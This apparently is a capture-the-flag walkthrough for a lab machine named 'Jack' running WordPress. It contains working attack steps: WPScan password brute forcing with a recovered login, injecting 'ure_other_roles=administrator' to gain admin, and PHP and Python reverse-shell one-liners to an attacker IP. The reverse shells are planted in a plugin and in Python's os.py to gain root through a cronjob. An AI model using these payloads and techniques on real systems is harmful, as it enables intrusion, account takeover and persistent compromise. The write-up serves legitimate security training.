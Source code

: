# Jack

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgHGMuutSoQktLWJfDa8F4+zCvINuPv8+mL2sHPJmSfFDaQ3jlsxitYWH7FWdj3zPzXLW01aY+AySXW593T3XZpzCSAjm3ImnPtNTaQsbsdkgmhj8eZ3q9hPxU5UD5593K+/FDdIiN5xIBLegm6y0SAd3sRtpdrcpHpkqOIZvoCyJTV7ncbRY0gppvfTEObo2PiCtzh31gbaDPrJICPnDuuF5aWAUTeUMc0YcMYaB9cCvfVT6Y1Cdfh4IwMHslafXRhRt5tn5l47xR0xwd3cddUEez/CHxiNthNTgv+BSo+TPPciPAiCN3QGSqTcPQ74RvFiAznL2irkENq+Qws2A3
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLzJknVQsubSrZMKNLlNAP1HXXuXzhtAf24ScY17eIS03NfxjFwiSESz8xKwVcmbODQGc+b9PvepngTTGlVrMf4=
|   256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/WxvJRsI0dvT84mxR/y3AH3C8KP/1Njv4wP6DylZeQ

80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 5.3.2
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
```

---

### Website → Wordpress site

![website.png](./img/website.png)

---

### WPScan

```bash
wpscan -e u,ap --url http://jack.thm
```

- Identified valid usernames during WPScan.

![vaid-users.png](./img/vaid-users.png)

- There is a **`xmlrpc.php`** file, meaning we can leverage this to brute force a password.

---

### WPScan → Brute Force Password

```bash
sudo wpscan --url http://jack.thm -P /usr/share/wordlists/fasttrack.txt -U user.txt -t 4 --verbose
```

> **wendy:changelater**
> 

---

### Exploitation

- After logging into the dashboard, there isn’t much we can do to get a shell.

> After spending a lot of time, I finally decided to use a hint
> 

**Room Hint:**

> **Wpscan user enumeration, and don't use tools (ure_other_roles)**
> 

**Step 1:** Update the profile and use Burp Suite to proxy all traffic.

**Step 2**: Add `&ure_other_roles=administrator` to the end of the request.

![update.png](./img/update.png)

- We can now access the site as admin.

![admin.png](./img/admin.png)

- To get a revers shell we need to

**Step 1**: Go to Plugins → Plugin Editor 

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.4.0.252/1337 0>&1'");?>
```

![plugins.png](./img/plugins.png)

> **Start Netcat listener**
> 

**Step 2:** Installed Plugins → Activate **`Akismet`** 

![rev.png](./img/rev.png)

![php-rev.png](./img/php-rev.png)

---

### USER FLAG

- user flag in home directory

![user-flag.png](./img/user-flag.png)

> HINT in `reminder.txt` file
> 

```
Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.
```

- Find backup files using the `locate` command.

```bash
locate backups
```

- We found the `id_rsa` file in `/var/backups/`, so we can use it to SSH into Jack's account.
- Start a Python server to transfer the `id_rsa` file to our machine.

```bash
chmod 600 id_rsa
```

---

### Privilege Escalation

```bash
ssh -i id_rsa jack@10.10.100.149 
```

![ssh.png](./img/ssh.png)

- Using **pspy**, we see that root runs a cronjob every minute.
- The script it runs is at `/opt/statuscheck/checker.py.`

![cron.png](./img/cron.png)

- So far we now jack is a part of family group.

```bash
find / -group family 2>/dev/null
```

- We know that the script is using `os.system`, which indicates it is written in Python 2.7
- The jack is part of the family group which has the ability to write on any files under the `/usr/lib/python2.7/` directory.

![python.png](./img/python.png)

- To exploit this, we add a reverse shell to the end of `/usr/lib/python2.7/os.py`

```python
import os,pty,socket;s=socket.socket();s.connect(("10.4.0.252",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

> **Start Netcat listening and update the IP and port.**
> 

![root.png](./img/root.png)

> **ROOT FLAG:**
> 

![root-flag.png](./img/root-flag.png)